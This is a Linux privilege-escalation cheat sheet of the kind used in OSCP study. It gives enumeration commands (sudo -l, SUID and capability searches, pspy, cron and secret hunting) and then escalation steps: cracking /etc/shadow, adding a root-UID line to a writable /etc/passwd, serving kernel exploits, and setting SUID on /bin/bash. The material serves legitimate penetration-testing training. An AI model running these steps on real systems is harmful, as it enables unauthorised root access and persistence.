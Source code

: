 ### Methodology

#### User and groups
Make note of any custom groups!
```
whoami
whoami -groups
```

#### Binary permissions 
[https://gtfobins.github.io/](https://gtfobins.github.io/)
```
#sudoers
sudo -l

#capabilities
/usr/sbin/getcap -r / 2>/dev/null

#suid and guid
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
#### Searching for Secrets
```
#Known files and variables
env
bashrc + bash_history

#SSH Keys
find / -name id_rsa 2> /dev/null
find / -name authorized_keys 2> /dev/null
```

#### Locally running services
These can be forwarded [here](obsidian://open?vault=Offensive-Security&file=OSCP%2FPost%20Exploitation%2FTunneling)
```
ss -ntplu
sockstat -l
netstat -an
```

#### Interesting Directories
Enumerate these thoroughly for secrets!
```
/home
/var/log
/var/www/html #Any internal websites or configs here?
/tmp
/opt

#Find all files that are readble by user.
find /etc -type f -readable 2>/dev/null

```
#### Processes (https://github.com/DominicBreuker/pspy)
Any unusual processes or commands being run?
```
#Only prints system commands.
./psspy64 -p -i 1000

#Prints system commands and events.
./pspy64 -pf -i 1000

#Looking for root processes
ps aux | grep "^root"
watch -n 1 "ps -aux | grep pass"
```
#### Cron
Are there any scripts we can write to?
Are there any scripts that have a customized PATH we can write to?
```
#Inspect these for cronjobs that we could hijack
cat /etc/crontab
ls -lah /etc/cron*
crontab -l

#Can we see running cronjobs?
grep "CRON" /var/log/syslog
```


### World Writeable Directories

```
find / -writable -type d 2>/dev/null
```
#### Automation

```
./linpeas.sh
```


#### Weak File Permissions

```
#Readable /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

#Writable /etc/passwd
#Generate new SHA hash on local machine and write that in replace of the root one:
mkpasswd -m sha-512 <new-password>

#Don't forget to escape $
echo "root2:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```

#### Kernel Exploits

```
#Compile exploits inside XenSpawn to avoid issues.
https://github.com/X0RW3LL/XenSpawn

uname -a 
cat /etc/issue
searchsploit linux kernel <version> priv esc

#Linux Exploit Suggester
linuxexploitsuggest.pl -k <version>

#Start Xenspawn
sudo systemd-nspawn -M test

#compile exploit on Xenspawn
`gcc <file.c> -o <exploit>`

#Start python server on kali.
/var/lib/machines/test/root
python -m http.server 80
```





```
#Alternate way to get root rather then using a reverse shell.
chmod +s /bin/bash
/bin/bash -p
```